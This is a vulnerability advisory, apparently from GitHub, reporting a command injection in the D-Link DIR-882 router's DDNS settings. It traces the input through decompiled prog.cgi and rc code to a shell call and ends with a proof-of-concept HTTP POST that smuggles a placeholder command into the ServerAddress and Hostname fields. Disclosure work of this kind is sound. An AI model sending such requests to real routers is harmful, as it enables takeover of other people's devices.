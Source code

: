 # Command Injection Vulnerability in `SetDynamicDNSSettings`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | D-Link DIR-882 Router                                        |
| Firmware Version     | DIR882A1_FW102B02                                            |
| Vulnerability Type   | **Command Injection**                                        |
| Vulnerable Component | `prog.cgi` (input handling) and `rc` (DDNS startup routine)  |
| Data Flow            | Cross-binary propagation via NVRAM variables (`nvram_safe_set` → `nvram_safe_get`) |
| Exploit Path         | Attacker-controlled input `/SetDynamicDNSSettings/ServerAddress` → stored in NVRAM (`DDNSProvider`) → retrieved by `rc` → concatenated into DDNS command → executed via `twsystem`.Similarly, `/SetDynamicDNSSettings/Hostname` → stored in NVRAM (`DDNS`) → retrieved by `rc` → concatenated into command → executed via `twsystem`. |
| Prerequisites        | No sanitization of DDNS `ServerAddress` and `Hostname` fields; only partial string comparison is performed, insufficient to prevent injection. |

2. Exploitation Path

```c
// prog.cgi
int __fastcall sub_4438A4(int a1)
{
  ...
  if ( v6 == 1 )
  {
    ...
    v8 = webGetVarString(a1, "/SetDynamicDNSSettings/ServerAddress");
    if ( v8 )
    {
      nvram_safe_set("DDNSProvider", v8);
      v1 = webGetVarString(a1, "/SetDynamicDNSSettings/Hostname");
      if ( v1 )
      {
        nvram_safe_set("DDNS", v1);
        ...
}

// rc
int start_DDNS_ipv4()
{
  ...
  v6 = (const char *)nvram_safe_get("DDNSProvider");
  v7 = (const char *)nvram_safe_get("DDNS");
  ...
  if ( v5 == 1 )
  {
    result = *(unsigned __int8 *)v6;
    if ( *v6 )
    {
      result = *(unsigned __int8 *)v7;
      if ( *v7 )
      {
        result = (unsigned __int8)*v8;
        if ( *v8 )
        {
          result = (unsigned __int8)*v9;
          if ( *v9 )
          {
            if ( !strcmp(v6, "dyndns.org") || !strcmp(v6, "dyndns.com") )
            {
              sprintf(
                v14,
                "%s -u %s -p %s -a %s --dyndns_system default@dyndns.org "
                "--update_period_sec %d &",
                v11,
                v12,
                v13,
                v7,
                v10);
            }
            else if ( !strcmp(v6, "oray.cn") || !strcmp(v6, "oray.com") )
            {
              sprintf(
                v14,
                "%s -u %s -p %s -a %s --dyndns_server_name ddns.oray.com "
                "--dyndns_server_url /ph/update? --update_period_sec %d &",
                v11,
                v12,
                v13,
                v7,
                v10);
            }
            else if ( !strcmp(v6, "dlinkddns.org") || !strcmp(v6, "dlinkddns.com") )
            {
              sprintf(
                v14,
                "%s -u %s -p %s -a %s --dyndns_system default@dlinkddns.com "
                "--update_period_sec %d &",
                v11,
                v12,
                v13,
                v7,
                v10);
            }
            else if ( strstr(v6, "no-ip") )
            {
              sprintf(
                v14,
                "%s -u %s -p %s -a %s --dyndns_system default@no-ip.com "
                "--update_period_sec %d &",
                v11,
                v12,
                v13,
                v7,
                v10);
            }
            else
            {
              sprintf(
                v14,
                "%s -u %s -p %s -a %s --dyndns_system default@%s "
                "--update_period_sec %d &",
                v11,
                v12,
                v13,
                v7,
                v6,
                v10);
            }
            system("echo 1 > /tmp/ddnstate");
            return twsystem(v14, 1);
          }
        }
      }
    }
  }
  return result;
}
```

3. **Vulnerable Binaries:**  `prog.cgi` and `rc` (with cross-binary data flow).
4. 0-Day Command Injection Exploitation Path: 
   - In `prog.cgi`, line 8 executes `v8 = webGetVarString(a1, "/SetDynamicDNSSettings/ServerAddress")`. The input is subsequently stored at line 11 via `nvram_safe_set("DDNSProvider", v8)`. In `rc`, line 23 retrieves the stored value through `v6 = (const char *)nvram_safe_get("DDNSProvider")`. After string concatenation, the data is passed into line 102 `return twsystem(v14, 1)`, leading to a command injection vulnerability. The current logic merely compares `v6` against specific strings, which is insufficient to prevent command injection.
   - In `prog.cgi`, line 12 executes `v1 = webGetVarString(a1, "/SetDynamicDNSSettings/Hostname")`. The input is subsequently stored at line 15 via `nvram_safe_set("DDNS", v1)`. In `rc`, line 24 retrieves the stored value through `v7 = (const char *)nvram_safe_get("DDNS")`. After string concatenation, the data is passed into line 102 `return twsystem(v14, 1)`, leading to a command injection vulnerability.

5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/prog.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Connection: close

SetDynamicDNSSettings/ServerAddress=dlinkddns.org;`INJECTED_COMMAND`
&SetDynamicDNSSettings/Hostname=test.example.com;`INJECTED_COMMAND`
```
